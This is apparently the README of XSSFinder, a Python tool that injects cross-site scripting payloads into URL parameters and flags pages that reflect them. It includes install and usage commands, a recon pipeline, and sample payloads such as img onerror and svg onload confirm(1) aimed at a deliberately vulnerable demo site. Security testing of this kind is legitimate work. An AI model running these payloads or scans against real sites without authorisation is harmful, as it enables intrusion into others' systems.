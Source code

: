 # XSSFinder

A Light Weight Tool for checking Cross Site Scripting (XSS) vulnerabilities by replacing xss payloads in the parameters values and checking 'confirm(1),prompt(1),alert(1)' in the response.

## Installation
```
git clone https://github.com/rix4uni/XSSFinder.git
cd XSSFinder
pip3 install -r requirements.txt
```

## Example usages

Note: must use `uro`

Single URL:
```
echo "http://testphp.vulnweb.com/showimage.php?file=./pictures/1.jpg" | python3 xssfinder.py
```

Multiple URLs:
```
cat xss-urls.txt | python3 xssfinder.py
```

## Chaining With Other Tools
```
echo "http://testphp.vulnweb.com" | waybackurls | gf xss | uro | anew | python3 xssfinder.py --threads 50
echo "http://testphp.vulnweb.com" | waybackurls | gf xss | uro | anew xss-urls.txt # use this output in Multiple URLs
```
## To get best results
```
open xss_payloads.txt add your favraioute payloads
```

## How It Works
```
For Example Url is:- 
http://testphp.vulnweb.com/showimage.php?file=first&cat=second

It will check all xsspayloads one by one:-
NOT VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=<img src=x onerror=confirm(1)>&cat=<img src=x onerror=confirm(1)>
VULNERABLE: http://testphp.vulnweb.com/showimage.php?file="><img src=x onerror=confirm(1)>&cat="><img src=x onerror=confirm(1)>
NOT VULNERABLE: http://testphp.vulnweb.com/showimage.php?file="><svg/onload=confirm(1)>&cat="><svg/onload=confirm(1)>
```
